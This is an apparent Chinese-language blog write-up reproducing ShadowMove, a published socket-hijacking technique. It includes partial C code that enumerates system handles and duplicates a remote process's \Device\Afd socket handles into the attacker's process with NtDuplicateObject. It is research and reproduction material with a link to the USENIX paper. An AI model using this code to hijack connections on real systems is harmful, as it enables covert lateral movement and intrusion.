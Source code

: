 # ShadowMove复现与思考

## 简介

前段时间有几位老哥联名发了一篇论文，这篇论文描述了一种复制套接字劫持网络连接的技术，本文旨在于简单分析复现这种技术，如有错误欢迎指正。

作者给出的理论图如下，通过创建两个基于原套接字复制的套接字，定期挂起原套接字接收和响应特殊的数据包。

![](../.gitbook/assets/image%20%28206%29.png)

## 复现过程

尽管windows本身提供了WSADuplicateSocket函数，但是这个函数需要本地进程的socks句柄，而句柄只在本地进程才有意义，这篇文章的作者提出了一种从远程复制句柄技术的变体。

作者发现套接字的句柄等同于的名为\Device\Afd文件句柄，这个句柄可以直接是为socks使用\(虽然就是同一个，但说还是这么说\)，我们可以通过常规的句柄枚举技术从远程进程得到它，然后使用NtDuplicateObject函数将它复制到本地进程，本地进程再通过WSADuplicateSocket获取克隆套接字需要的参数，然后我们可以像使用自己的socket一样使用这个克隆过来的socket了。

![](../.gitbook/assets/image%20%28205%29.png)

在github有师傅分享了一份ShadowMove的代码，这里我做了一点简化。

首先师傅获取了远程进程的所有句柄。

```text
    //获取远程线程内所有句柄
    pSysHandleInfo = (PSYSTEM_HANDLE_INFORMATION)calloc(SystemInformationLength, sizeof(UCHAR));
    while (pNtQuerySystemInformation(SystemHandleInformation,
                                     pSysHandleInfo,
                                     SystemInformationLength,
                                     &ReturnLength) == STATUS_INFO_LENGTH_MISMATCH) {
        free(pSysHandleInfo);
        SystemInformationLength = ReturnLength;
        pSysHandleInfo = (PSYSTEM_HANDLE_INFORMATION)calloc(SystemInformationLength, sizeof(UCHAR));
    }

```

获取句柄之后将所有句柄克隆到了当前进程\(句柄只有在本地进程才有意义\)，对这个句柄的类型做了一个判断。\(这里我简单的做了一个优化，作者的源代码是判断所有句柄类型不等于0x28的句柄，其实所有\drivice\开头的文件句柄都是OB\_TYPE\_DEVICE, // 25,设备类型\)。

```text

    for (size_t i = 0; i < pSysHandleInfo->NumberOfHandles; i++) 
    {
        //句柄只在拥有者进程内有意义，所以这里需要通过NtDuplicateObject函数将句柄复制到当前进程
        if (pSysHandleInfo->Handles[i].ObjectTypeIndex == 0x25) {
            ntStatus = pNtDuplicateObject(hProcess,
                                          (HANDLE)pSysHandleInfo->Handles[i].HandleValue,
                                          GetCurrentProcess(),
                                          &TargetHandle,
                                          PROCESS_ALL_ACCESS, 
                                          FALSE,
                                          DUPLICATE_SAME_ACCESS);

            if (ntStatus == STATUS_SUCCESS) {
                pObjNameInfo = (POBJECT_NAME_INFORMATION)calloc(ObjectInformationLength, sizeof(UCHAR));

                if (NULL == pObjNameInfo) {
                    CloseHandle(TargetHandle);
                    free(pSysHandleInfo);
                    pSysHandleInfo = NULL;

                    return TargetSocket;
                }
```

## LINKS

原文如下:

{% embed url="https://www.usenix.org/system/files/sec20summer\_niakanlahiji\_prepub.pdf" %}







